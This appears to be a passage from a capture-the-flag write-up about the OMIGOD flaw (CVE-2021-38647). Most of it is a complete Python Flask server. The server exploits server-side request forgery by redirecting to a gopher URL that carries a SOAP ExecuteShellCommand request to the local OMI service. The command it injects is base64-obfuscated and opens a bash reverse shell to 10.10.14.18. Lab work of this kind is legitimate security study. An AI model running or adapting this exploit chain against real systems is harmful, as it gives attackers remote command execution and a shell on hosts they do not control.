 - I copied the payload data from the [POC](https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/refs/heads/main/omigod.py) and after  that I added curly braces replacing previous command data then included it into this python code. 
```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)    

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""

REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""

@app.route('/')    
def root(): 
    cmd = "echo 'YmFzaCAtYyAiZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTgvNjAwMSA8JjEiCg==' | base64 -d | bash"
    data = DATA.format(cmd)
    req = REQUEST.format(length=len(data)+2, body=data)
    enc_req = quote(req, safe='')
    return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301) 
    
    
if __name__ == "__main__":    
    app.run(ssl_context='adhoc', debug=False, host="0.0.0.0", port=8443)

```